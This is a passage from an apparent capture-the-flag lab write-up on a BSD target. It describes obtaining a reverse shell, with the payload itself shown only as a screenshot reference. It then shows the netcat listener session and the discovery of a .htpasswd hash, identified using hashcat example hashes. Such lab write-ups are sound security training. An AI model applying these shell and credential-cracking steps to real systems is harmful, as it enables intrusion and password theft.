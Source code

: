 At this point, I got stuck for some time trying to get a reverse shell up and running. I didn't manage to get any of my default reverse shells working. I even tried writing the payload in Lua, but that didn't work because of missing modules. Taking a step back, I remembered again that this target host was a BSD system. Searching around for a BSD specific reverse shell, I bumped into this [repo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd).

![Creating Reverse Shell in Burp](./images/burp-suite-reverse-shell.png)

And I've got a shell:

```sh
$nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.218] 65485
sh: can't access tty; job control turned off
$ whoami
_httpd
$ ls -al
total 20
drwxr-xr-x   2 root  wheel  512 Nov 25 11:27 .
drwxr-xr-x  24 root  wheel  512 Nov 24 09:55 ..
-rw-r--r--   1 root  wheel   47 Sep 16  2020 .htpasswd
-rw-r--r--   1 root  wheel  386 Sep 17  2020 index.html
-rw-r--r--   1 root  wheel   78 Nov 25 11:38 robots.txt
```

The directory seems to have a `.htpasswd`, which contains a UNIX md5 hash. We can verify this by dumping example hashes from hashcat and grep for the first couple of characters of the hash:

```sh
hashcat --example-hashes | grep '\$1\$' -B 1
MODE: 500
TYPE: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
HASH: $1$38652870$DUjsu4TTlTsOe/xxZ05uf/
--
TYPE: eCryptfs
HASH: $ecryptfs$0$1$4207883745556753$567daa975114206c
--
TYPE: FileVault 2
HASH: $fvde$1$16$84286044060108438487434858307513$20000$f1620ab93192112f0a23eea89b5d4df065661f974b704191
--
TYPE: BitLocker
HASH: $bitlocker$1$16$6f972989ddc209f1eccf07313a7266a2$1048576$12$3a33a8eaff5e6f81d907b591$60$316b0f6d4cb445fb056f0e3e0633c413526ff4481bbf588917b70a4e8f8075f5ceb45958a800b42cb7ff9b7f5e17c6145bf8561ea86f52d3592059fb
```
